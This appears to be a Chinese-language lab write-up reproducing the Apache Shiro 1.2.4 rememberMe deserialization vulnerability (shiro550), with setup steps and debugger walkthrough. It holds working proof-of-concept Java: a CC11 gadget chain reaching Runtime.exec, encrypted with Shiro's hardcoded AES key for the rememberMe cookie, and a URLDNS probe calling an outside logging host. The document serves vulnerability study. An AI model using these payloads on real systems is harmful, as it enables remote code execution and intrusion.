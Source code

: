 # shiro550

环境搭建

下载[https://codeload.github.com/apache/shiro/zip/shiro-root-1.2.4](https://codeload.github.com/apache/shiro/zip/shiro-root-1.2.4)

使用idea打开shiro-shiro-root-1.2.4\samples\web这个web项目即可,这里需要配置一下pom文件,把jstl的具体版本号写一下就行

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled.png)

然后添加利用链需要的依赖

```xml
		<dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
<dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
```

配置好tomcat之后启动:

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%201.png)

([https://github.com/v1f18/SerializerChain/tree/main/shiro-shiro-root-1.2.4/samples/web](https://github.com/v1f18/SerializerChain/tree/main/shiro-shiro-root-1.2.4/samples/web) 这是我用的环境和代码)

shiro提供的RememberMe功能,在用户登入成功之后会通过硬编码的key生成一个base64的加密数据,再次登入的时候会将这个数据发给shiro,然后shiro通过反序列化来解密.即可实现不输入密码登入

因为shiro用的aes加密方式,所以我们也可以通过这个硬编码的key来生成恶意的反序列化串来执行恶意的命令

调用链

```java
OncePerRequestFilter.doFilterInternal()
AbstractShiroFilter.doFilterInternal()
AbstractShiroFilter.createSubject()
WebSubject$Builder.buildWebSubject()
Subject$Builder.buildSubject()
DefaultSecurityManager.createSubject()
DefaultSecurityManager.resolvePrincipals()
DefaultSecurityManager.getRememberedIdentity()
AbstractRememberMeManager.getRememberedPrincipals()
AbstractRememberMeManager.convertBytesToPrincipals()
AbstractRememberMeManager.deserialize()
DefaultSerializer.deserialize()
ObjectInputStream.readObject()
HashSet.readObject()
HashMap.put()
HashMap.hash()
TiedMapEntry.hashCode()
TiedMapEntry.getVaule()
LazyMap.get()
ChainedTransformer.transform()
...
Runtime.exec()

```

### 使用cc11作为poc

poc:

```java
public static byte[] getpayloadcc11() throws  Exception{
        CtClass evil_payload = ClassPool.getDefault().get("util.evil");
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_name","v1f18");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evil_payload.toBytecode()});
        InvokerTransformer invokerTransformer = new InvokerTransformer("abc", null, null);

        Map decorate = LazyMap.decorate(new HashMap(), (Transformer) invokerTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(decorate, templates);
        HashSet hashSet = new HashSet();
        hashSet.add(1);
        Field f,f2 ;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        //hashset实际上使用hashmap来存储,hashsetMap就是hashmap类
        HashMap hashsetMap = (HashMap) f.get(hashSet);

        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }
        f2.setAccessible(true);
        Object[] array = (Object[])f2.get(hashsetMap);
        Object node = array[0];
        if (node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node,tiedMapEntry);

        SerializeUtil.setFieldValue(invokerTransformer,"iMethodName","newTransformer");

        return SerializeUtil.writeObjectToByteArray(hashSet).toByteArray();
    }
```

使用shiro给的AesCipherService来构造poc

```java
				AesCipherService aesCipherService = new AesCipherService();
        byte[] getpayload = payloadCC11.getpayloadcc11();
        ByteSource encrypt = aesCipherService.encrypt(getpayload,Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA=="));
        System.out.println(encrypt.toString());
```

运行后得到一串base64的加密字符

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%202.png)

抓取登录包,添加rememberMe字段,将base64的值添加进去:

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%203.png)

开始调试,当用户开启RememberMe功能之后,首先进入getRememberedSerializedIdentity方法

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%204.png)

这个subjectConetxt代表用户的上下文

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%205.png)

这里通过头中的rememberMe字段获取值

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%206.png)

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%207.png)

返回到getRememberedSerializedIdentity方法

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%208.png)

这里对获取到的base64数据解码

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%209.png)

返回到getRememberedPrincipals方法

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2010.png)

这里的bytes就是为已经base64解码过后的加密数据

进入convertBytesToPrincipals

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2011.png)

进入decrypt,这里就对暂时为解密的数据解密了

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2012.png)

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2013.png)

cipherService里面包含了加密的类型,aes,这个是对称加密,可以通过key解密,所以就导致我们可以构造恶意的反序列化串让shiro解析

具体的硬编码key在AbstractRememberMeManager中

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2014.png)

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2015.png)

解密完成后,serialized就是我们构造的恶意反序列化串

跟入deserialize方法,看看具体是怎么反序列化

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2016.png)

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2017.png)

getSerializer()方法返回一个默认的反序列化器

进入deserialize方法

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2018.png)

这里就很熟悉了,因为用的cc11的链子,所以基本上没什么问题,就相当于进入了HashSet的readObject方法了

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2019.png)

这里使用cc11是因为cc11的限制比较小,只要cc的版本在3.1-3.2.1即可,jdk是没限制的

在cc链里面还有cc2也是可以执行命令的(cc2使用的cc版本是4.0,而shiro默认为3.2.1,所以就不考虑了),只要构造漏洞触发点的时候不使用数组即可

### 使用urldns探测

poc

```java
HashMap hashMap = new HashMap();
        Class<?> aClass = Class.forName("java.net.URL");
        Constructor<?> constructor = aClass.getConstructor(String.class);
        URL url = (URL) constructor.newInstance("http://juu7xg.ceye.io");
        //获取URL类中的hashCode属性
        Field hashCode = aClass.getDeclaredField("hashCode");
        //绕过权限限制
        hashCode.setAccessible(true);
        //设置hashCode的值
        hashCode.set(url,123);
        System.out.println(url.hashCode());
        //添加到HashMap中
        hashMap.put(url,123);
        //设置hashCode的值
        hashCode.set(url,-1);
        return SerializeUtil.writeObjectToByteArray(hashMap).toByteArray();
```

同样获得一串base64的数据后发送即可

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2020.png)

dns就收到数据了

![Untitled](shiro550%20d5d07248ca894091b8e17a5f3c8ccefd/Untitled%2021.png)